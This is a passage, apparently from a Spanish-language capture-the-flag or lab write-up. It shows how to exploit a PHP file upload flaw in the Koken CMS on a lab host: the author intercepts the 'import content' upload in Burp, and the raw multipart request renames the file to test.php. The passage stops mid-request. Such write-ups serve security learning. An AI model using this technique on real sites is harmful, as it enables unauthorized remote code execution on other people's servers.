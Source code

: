 
## Intrusión al sistema

El sistema de gestión de contenidos Koken exhibe una vulnerabilidad que habilita la carga de archivos PHP, lo cual resulta en la obtención de acceso remoto a la máquina. Para explotar esta vulnerabilidad, accedemos a la URL http://192.168.0.115:8000/admin/#/library y observamos un botón denominado 'import content'. Al seleccionarlo, procedemos a cargar una imagen cualquiera y posteriormente interceptamos la respuesta con burp.

```bash

POST /api.php?/content HTTP/1.1
Host: 192.168.0.115:8000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: es-AR,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://192.168.0.115:8000/admin/
x-koken-auth: cookie
Content-Type: multipart/form-data; boundary=---------------------------31344929814676734271882685817
Content-Length: 1086
Origin: http://192.168.0.115:8000
DNT: 1
Connection: close
Cookie: koken_referrer=%2F; koken_session_ci=4RVJeHCtUOelovf2eZ0J50XCgVrUSat5dB31RToVOUrNWz1c8xEUpyqjLeboUz0bXNd6tyQ6rlw8ZTHJuyE8P4NpB6vnLuZ%2B1V36pfhPr3t9MAWPtrmbWd89tFJRmYmfG5Yi1lNptPwawWsO2%2BUudA8h4neZ5nAPNtjIdztaiW%2FeBNC0%2B%2FuegJWBCn%2BE4QT45StgmZp0huyLAIUt%2Fygju5OF3fORJp7KMp%2BQpkhoteNm%2BigVxl71k9mEaSYZnSvWIh99lYJOghPVQMOakq64mfJzUYWxhdzOoy5pn1nCzf3Vxphd9AkW5fGVuhBUq%2B3uAJOZTPOL8wCI6V49zWdQr7SzOKTRH3yoGizC0shXoOJ4Cx4FofSiOlkTu7rKG4IG%2F4vZ5xKoZUJT9eE02nXz3BQxuEoCfi6GaT9x2Uss9jwqwYn9mnuasum5vwoqE%2BcVerisxOCXxrpIMB5MLAgQJR0ejEYorUXUO9iXqTPpXMZMy6si9wmPCoWWlIiwQlk4o3zpsD3oyNDqiWLZWA%2BiBrtV%2BVxh0tObNjzUTWXDsdNs9eenOXBMw2WDwz2x4hdP%2B9HpibBXcBUaGdTCQ5789CxSN3Tb8U8DiitUpKnVU8lZfFXZpSZEenWxAa1n91F%2FD2U3rNqCkPXijRvD2aQRzcZAI9zgYKHvI3ecEsPd8LUE0PynltqUEeL7YawkRRFjPtlUPOkmcL5eFIgRVQYoWmAW8%2FebamJfJzCS3qr7o61MEsD%2FzhPVU0qYmMG4WIkG5dm4PKbEqCS2dYTwWIbbLwtAzOxch6S3DtkIF%2BsSWUxKqAMO9b1jLyXt86sTAZXDNHadE7lv1aNm0I3VS4%2BFOuctHb1RNwvpTe9gQyey%2Beh%2Fmj6fqJ8vw87UjAe6uiIygYhubWa9VqKUC9Dey5nbACmufE8y7kbfRjFxd1DuMK709QhvBJ4AZfDVUR7oaScsvu%2FwU7CiTPnmvCRCYjOSAWsnbiIuB0jh8fYAu1J3D013ya7cwMq58CZxfAVuYVy7bJcRKStwgUBcGboEkUNjE9YCKvqV4DuDHIul5NVzGfd7O8%2Fi1PqGgcQGfUTLfQcUIoh9iH2johR0DiVwbCh3NXBwubm4afMhFCKD1w%2BDpaxwvNng0mJygE%2FgZDvXsc7JwOAlW0Kj2qEQJxk053dhBf8ORfeAeADKARfYiL23ZegujGs9xmOap5I00OX3Mev%2BYUGxX1zeu2mcUUWq0kynN1d7UKsok4qH8AnIfyKN1sFSdOVma3IffrzebLE%2Fc5rR4f1ffa69f0507ad383f44dc963e5083fa532d59d

-----------------------------31344929814676734271882685817
Content-Disposition: form-data; name="name"

test.php
-----------------------------31344929814676734271882685817
Content-Disposition: form-data; name="chunk"

0
-----------------------------31344929814676734271882685817
Content-Disposition: form-data; name="chunks"

1
-----------------------------31344929814676734271882685817
Content-Disposition: form-data; name="upload_session_start"

1696793225
-----------------------------31344929814676734271882685817
Content-Disposition: form-data; name="visibility"

public
-----------------------------31344929814676734271882685817
Content-Disposition: form-data; name="license"

```